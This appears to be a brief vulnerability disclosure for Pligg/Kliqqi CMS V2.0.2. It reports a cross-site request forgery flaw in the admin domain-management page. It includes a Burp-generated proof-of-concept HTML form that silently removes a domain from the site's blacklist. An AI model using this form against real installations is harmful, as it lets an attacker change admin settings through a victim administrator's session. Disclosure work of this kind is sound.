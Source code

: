 
target:https://github.com/Kliqqi-CMS/Kliqqi-CMS
version: V2.0.2

Pligg CMS V2.0.2 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component  http://127.0.0.1:80/admin/domain_management.php?id=0&list=blacklist&remove=WWW.BAIDU.COM

POC:
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1:80/admin/domain_management.php?id=0&list=blacklist&remove=WWW.BAIDU.COM" method="POST">
      <input type="hidden" name="id" value="0" />
<input type="hidden" name="list" value="blacklist" />
<input type="hidden" name="remove" value="WWW.BAIDU.COM" />

      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

